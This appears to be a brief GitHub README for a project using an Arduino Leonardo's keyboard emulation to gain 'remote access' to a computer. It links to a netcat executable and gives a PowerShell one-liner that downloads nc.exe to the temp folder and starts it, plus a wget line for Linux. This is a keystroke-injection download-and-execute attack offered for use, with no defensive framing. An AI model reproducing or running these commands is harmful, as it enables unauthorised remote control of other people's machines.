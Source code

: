 <p align="center"><img src="Logo-small.png" alt="Mark Text" ></p>
<h1 align="center">Remote access using Arduino</h1>
<br>


##### Why we use Arduino Leonard ?

Because we need to access on keyboard so it depends on Arduino leonard. Also this project is very simple. You can design another creation algorithm

<!-- Downloads total -->

[NETCAT](https://github.com/s0l0n3t/netcat1221/raw/master/nc.exe)

```C
For windows powershell: (new-object System.Net.WebClient).DownloadFile('netcat github url','%TEMP%\nc1221.exe'); Start-Process "%TEMP%\nc1221.exe"
linux: wget https://github.com/s0l0n3t/netcat1221/blob/master/nc.exe?raw=true
```
